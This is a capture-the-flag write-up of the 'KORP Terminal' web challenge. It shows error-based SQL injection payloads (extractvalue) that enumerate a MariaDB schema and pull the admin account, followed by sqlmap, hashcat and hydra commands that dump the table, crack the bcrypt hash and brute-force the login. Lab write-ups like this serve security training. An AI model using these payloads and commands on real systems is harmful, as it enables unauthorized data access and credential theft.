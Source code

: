 ```yaml
---
layout: Post
format: chall
title: KORP Terminal
date: 2024-03-09
ctf: Cyber Apocalypse
tags: [SQLi, SQLmap, Hashcat]
category: [Web]
---
```

# KORP Terminal

<a class="back-link" href="../../">< Go back</a>

KORP Terminal
Your faction must infiltrate the KORP™ terminal and gain access to the Legionaries' privileged information and find out more about the organizers of the Fray. The terminal login screen is protected by state-of-the-art encryption and security protocols.

<br><br>

The website was just a basic login page, though the auth didn't use http-forms but just a `Basic` auth. I tried running hydra with `http-get` but it didn't work, I don't really know why. So instead I just focused on the webpage itself.

After trying lots of different things I found that the service was vulnerable to SQLi's:

```sql
' AND extractvalue(rand(),concat(0x3a,(SELECT version()))) --+
```

Response: `1105 (HY000): XPATH syntax error: ':10.11.6-MariaDB'"`

Looking online we don't have any notable exploits for this version, but we can still try to extract some information.

```sql
' AND extractvalue(rand(),concat(0x3a,(SELECT column_name FROM table_name LIMIT 1))) --+
```

Response: `"1142 (42000): SELECT command denied to user 'lean'@'localhost' for table'korp_terminal'.'table_name'"`

We learned that the database schema name is `korp_terminal`. And that there is a `lean` user.

Let's try to view how the schema is made up:

```sql
' AND extractvalue(rand(),concat(0x3a,(SELECT column_name FROM information_schema.columns WHERE table_schema = 'korp_terminal'))) --+
```

Response: `1242 (21000): Subquery returns more than 1 row`

Nice let's try to step into the schema cols:

```sql
' AND extractvalue(rand(),concat(0x3a,(SELECT column_name FROM information_schema.columns WHERE table_schema = 'korp_terminal' LIMIT 0,1))) --+
```

Responses:

- for `LIMIT 0,1`: `1105 (HY000): XPATH syntax error: ':id'`
- for `LIMIT 1,1`: `1105 (HY000): XPATH syntax error: ':username'`
- for `LIMIT 2,2`: `1105 (HY000): XPATH syntax error: ':password'`

Because this is a "very easy" challenge, let's try to guess the table name as `users` and extract the username:

```sql
' AND extractvalue(rand(),concat(0x3a,(SELECT username FROM users LIMIT 0,1))) --
```

Response: `1105 (HY000): XPATH syntax error: ':admin'`

Perfect we have a `admin` user in the `users` table, our guess was correct, let's grab their password:

```sql
' AND extractvalue(rand(),concat(0x3a,(SELECT password FROM users WHERE username = 'admin' LIMIT 0,1))) --
```

We do get the password but it's partially cropped. After spending some time trying to manually investigate, I abandoned and just threw sqlmap at it, it worked pretty damn well:

```bash
sqlmap -u "http://<IP>/" -v 3 --forms --ignore-code=401 -D korp_terminal -T users --dump
# Database: korp_terminal
# Table: users
# [1 entry]
# +----+--------------------------------------------------------------+----------+
# | id | password                                                     | username |
# +----+--------------------------------------------------------------+----------+
# | 1  | $2b$12$OF1QqLVkMFUwJrl1J1YG9u6FdAQZa6ByxFt/CkS/2HW8GA563yiv. | admin    |
# +----+--------------------------------------------------------------+----------+
```

I always forget about sqlmap, what a crazy tool. Okay so bcrypt, 12 rounds, this seems weirdly complex for a "very easy" challenge, but ok, let's give it to hashcat with rockyou.txt:

```bash
hashcat -m 3200 -a 0 -o cracked.txt hash.txt /usr/share/wordlists/rockyou.txt
# $2b$12$OF1QqLVkMFUwJrl1J1YG9u6FdAQZa6ByxFt/CkS/2HW8GA563yiv.:password123
```

I feel betrayed as I've left hydra running in the background over rockyou and it didn't manage to get in... I don't really understand what I did wrong with hydra:

```bash
hydra -I -l admin -P /usr/share/wordlists/rockyou.txt -s 44667 -V 94.237.50.175 http-post /
# I also tried http-get, nothing.
```

Connecting with `admin:password123` we get the flag.
